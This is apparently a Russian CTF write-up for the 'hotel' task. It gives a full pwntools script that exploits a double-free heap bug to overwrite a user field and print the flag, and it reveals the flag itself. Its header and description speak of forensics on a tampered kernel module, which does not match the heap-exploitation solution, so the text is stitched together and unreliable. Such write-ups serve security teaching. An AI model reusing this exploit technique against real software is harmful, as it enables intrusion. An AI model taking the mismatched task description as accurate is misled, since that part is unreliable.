


#  В отеле | medium | forensics

## Информация
> После подозрительной активоности на сервере, с ядром что-то не так...

## Выдать участинкам
файл [hotel](public/hotel)

## Описание
Для решения надо обратить внимание на то, что в одном из модулей ядра была другая подпись и через такие утилиты как ghidra/IDA найти `flag` и декодировать из ASCII.

## Решение
Открываем бинарь, изучаем поведение и все функции. Находим место где выводится флаг.



**(Функция read_secret)**

Видим, что эта функция проверяет какое-то поле у curr_user и если оно равно 31337, то выводит флаг.

Значит нужно каким-то образом записать туда это значение.

Проанализировав все функции, можно заметить, что после удаления текущий юзер не обнуляется, а значит мы можем повторно его удалить. Имеем уязвимость double free



**(Уязвимая функция)**

Также в эксплуатации нам поможет функция write_msg (она позволяет аллоцировать чанк любой длины, а затем записать туда что-то)

Алгоритм нашей атаки будет следующий: 

1. Используем double free (то есть очищаем один чанк два раза)
2. Выделяем чанк через write_msg такого же размера, как и структура User
3. Записываем туда наши данные (31337)
4. Получаем флаг

Полное решение:

```python
from pwn import *


s = process("./hotel")

for i in range(9):
    s.recvuntil(b"> ")
    s.sendline(b"2")
    s.recvuntil(b": ")
    s.sendline(f"{i}".encode())
    s.recvuntil(b": ")
    s.sendline(f"{i}".encode())

for i in range(7):
    s.recvuntil(b"> ")
    s.sendline(b"1")
    s.recvuntil(b": ")
    s.sendline(f"{i}".encode())
    s.recvuntil(b": ")
    s.sendline(f"{i}".encode())
    s.recvuntil(b"> ")
    s.sendline(b"3")
    s.recvuntil(b"> ")
    s.sendline(b"4")

i = 7
s.recvuntil(b"> ")
s.sendline(b"1")
s.recvuntil(b": ")
s.sendline(f"{i}".encode())
s.recvuntil(b": ")
s.sendline(f"{i}".encode())
s.recvuntil(b"> ")
s.sendline(b"3")
s.recvuntil(b"> ")
s.sendline(b"4")

i = 8
s.recvuntil(b"> ")
s.sendline(b"1")
s.recvuntil(b": ")
s.sendline(f"{i}".encode())
s.recvuntil(b": ")
s.sendline(f"{i}".encode())
s.recvuntil(b"> ")
s.sendline(b"3")
s.recvuntil(b"> ")
s.sendline(b"4")

i = 7
s.recvuntil(b"> ")
s.sendline(b"1")
s.recvuntil(b": ")
s.sendline(f"{i}".encode())
s.recvuntil(b": ")
s.sendline(f"{i}".encode())
s.recvuntil(b"> ")
s.sendline(b"3")
s.recvuntil(b"> ")
s.sendline(b"4")

for i in range(50, 50+7):
    s.recvuntil(b"> ")
    s.sendline(b"2")
    s.recvuntil(b": ")
    s.sendline(f"{i}".encode())
    s.recvuntil(b": ")
    s.sendline(f"{i}".encode())

i = 123
s.recvuntil(b"> ")
s.sendline(b"2")
s.recvuntil(b": ")
s.sendline(f"{i}".encode())
s.recvuntil(b": ")
s.sendline(f"{i}".encode())

i = 456
s.recvuntil(b"> ")
s.sendline(b"2")
s.recvuntil(b": ")
s.sendline(f"{i}".encode())
s.recvuntil(b": ")
s.sendline(f"{i}".encode())

i = 123
s.recvuntil(b"> ")
s.sendline(b"1")
s.recvuntil(b": ")
s.sendline(f"{i}".encode())
s.recvuntil(b": ")
s.sendline(f"{i}".encode())

s.recvuntil(b"> ")
s.sendline(b"1")
s.recvuntil(b": ")
s.sendline(f"{40}".encode())
s.recvuntil(b": ")
s.sendline(b"A" * 16 + p64(31337))

s.interactive()
```

## Флаг
`PolyCTF{D0Ubl3_r00m_f4r_yoU_S1R}`
